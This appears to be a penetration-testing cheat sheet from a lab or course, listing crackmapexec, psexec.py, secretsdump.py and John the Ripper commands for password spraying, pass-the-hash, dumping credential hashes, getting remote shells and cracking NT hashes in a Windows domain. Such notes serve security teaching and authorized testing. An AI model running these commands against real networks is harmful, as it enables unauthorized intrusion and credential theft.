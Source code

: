 ## crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```
### Pass the Hash
Once you get the hash from secrets dump you only want the second part of the hash after the colon
```bash
crackmapexec smb 192.168.16.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

### Run this command once domain admin creds are discovered

```bash
crackmapexec smb 10.10.10.10/24 -u water -p password123
#new users and their hashes will be discovered
```

### psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

### secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```


cracking sam hashes
```bash
john hash.txt --format=NT --wordlist=/path/to/file
```
